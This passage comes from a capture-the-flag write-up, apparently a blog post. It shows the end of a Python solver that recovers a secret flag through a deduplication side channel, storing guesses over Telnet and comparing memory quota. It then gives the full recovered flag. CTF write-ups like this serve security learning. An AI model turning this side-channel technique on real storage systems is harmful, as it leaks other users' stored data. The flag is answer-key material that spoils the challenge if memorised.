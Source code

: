 ```py
            guess = flag + char

            print(f'* Putting flag guess to blob... {guess}{" "*20}', end='\r')
            store(tc, guess)
            previous_quota = current_quota
            current_quota = get_memory_usage(tc)

            if current_quota == previous_quota:
                flag = guess
                print(f'* Character guessed correctly: {flag}{" "*20}')
                i = 0
                if char == "}":
                    exhausted = True
                    break
            else:
                i+=1
                if char == "}":
                    exhausted = True
                    print(f"* Character list exhausted. If this is not the end of flag - try adding more characters to list")
                break


if __name__ == "__main__":
    accepted_characters = ''
    with Telnet(host, port) as tc:
        accepted_characters = get_character_set(tc)
    #accepted_characters = 'cdfinptuCFMRTX0134_{}'
    
    print(f"* Using following character set: {accepted_characters}")

    with Telnet(host, port) as tc:
        guess_flag(tc, accepted_characters)
```

![demo.gif](https://cdn.hashnode.com/res/hashnode/image/upload/v1627920033145/G5d1tOrVV.gif)

Unfortunately, after reaching the flag size of 16, the script starts finding the previous values again (because of chunking).

![2021-08-01-23-20-05.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627920057395/UB0jySWbu.png)

So far, we've got first 16 characters `CTF{CR1M3_0f_d3d`

So to get the rest of the flag, we can run the script again, but with different starting `flag` value - `3d`.

![2021-08-01-23-46-55.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627920066260/VByyaoDlE.png)

Now we can compose the whole flag: `CTF{CR1M3_0f_d3dup1ic4ti0n}`

[Back to top](#contents) ⤴
